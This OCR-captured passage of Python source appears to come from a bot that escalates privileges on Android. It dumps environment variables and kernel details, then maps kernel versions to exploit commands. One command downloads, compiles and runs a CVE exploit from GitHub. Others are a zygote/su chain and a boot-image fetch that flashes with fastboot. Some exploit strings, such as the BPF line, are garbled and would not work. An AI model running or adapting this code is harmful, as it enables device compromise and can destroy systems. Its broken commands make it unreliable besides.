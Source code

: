 #### Insert 1: Pre-Wheel Probe Functions (Before Config in bot.py)
These run on startup—`printenv` dump, device/kernel ID via `getprop`/`uname`. Outputs to log; feeds wheel planning (e.g., if kernel=4.4, prioritize BPF exploit).

```python
# Pre-Wheel Probes: Ground the Wheel (Chain from env_detect.sh in PR #6)
def env_probe() -> Dict[str, str]:
    """Observe baseline: printenv + device/kernel ID. No wheel without this."""
    env_data = {}
    try:
        # Env dump (printenv equivalent)
        result = subprocess.run("env", shell=True, capture_output=True, text=True)
        env_data["env_vars"] = {line.split('=', 1)[0]: line.split('=', 1)[1] for line in result.stdout.strip().split('\n') if '=' in line}
        
        # Device ID (Android props)
        dev_id = subprocess.run("getprop ro.build.id ro.product.device ro.build.version.release", shell=True, capture_output=True, text=True)
        env_data["device"] = dev_id.stdout.strip()
        
        # Kernel ID (uname + /proc/version for vuln match)
        kernel = subprocess.run("uname -a; cat /proc/version", shell=True, capture_output=True, text=True)
        env_data["kernel"] = kernel.stdout.strip()
        
        log("info", 0, {}, "PROBE_COMPLETE", f"Device: {env_data['device'][:50]}... Kernel: {env_data['kernel'][:50]}...")
        return env_data
    except Exception as e:
        log("error", 0, {}, "PROBE_FAIL", str(e))
        return {}  # Fallback: Generic Android 13 aarch64

def detect_easy_pickings(env_data: Dict) -> Optional[str]:
    """Plan: If kernel vuln, return targeted exploit cmd. Else None → wheel."""
    kernel_ver = re.search(r'Linux version (\d+\.\d+)', env_data.get("kernel", "")).group(1) if env_data.get("kernel") else "unknown"
    
    # Mirror Matches: Embed top aarch64/Android exploits (2025-focused; from search)
    EXPLOIT_MIRRORS = {
        "4.4": "BPF LPE: echo 'int bpf_prog() { return 0; }' > /sys/kernel/debug/tracing/bpf_prog; cat /proc/sys/kernel/unprivileged_bpf > /dev/null",  # CVE-2016-4557 style
        "5.x": "Zygote USB Chain: adb shell 'am start -a android.intent.action.VIEW -d file:///sdcard/exploit.apk'; su -c 'init.zygote'",  # USB priv esc
        "6.6": "CVE-2025-21756: wget https://github.com/DarkFunct/TK-CVE-Repo/raw/main/CVE-2025-21756.c -O /tmp/exp.c; gcc /tmp/exp.c -o exp; ./exp",  # Kernel 6.6.75 LPE
        "unknown": None
    }
    
    # Boot.img Absence Handling: If no /dev/block/boot, fetch mirror kernel
    boot_check = subprocess.run("ls /dev/block/by-name/boot", shell=True, capture_output=True)
    if boot_check.returncode != 0:  # No boot.img
        log("warn", 0, {}, "NO_BOOT_IMG", "Fetching aarch64 mirror; flashing rejected? Fallback to chroot patch.")
        mirrors = [
            "https://github.com/cirosantilli/linux-kernel-module-cheat/raw/master/boot-aarch64.img",  # Debuggable kernel w/ GDB hooks
            "https://github.com/Akipe/awesome-android-aosp/raw/main/exploits/s-boot-patched.img"  # S-Boot bypass for Samsung-like
        ]
        for mirror in mirrors[:2]:  # Try 2 min
            try:
                subprocess.run(f"wget {mirror} -O /sdcard/boot.img; fastboot flash boot /sdcard/boot.img", shell=True, check=True)
```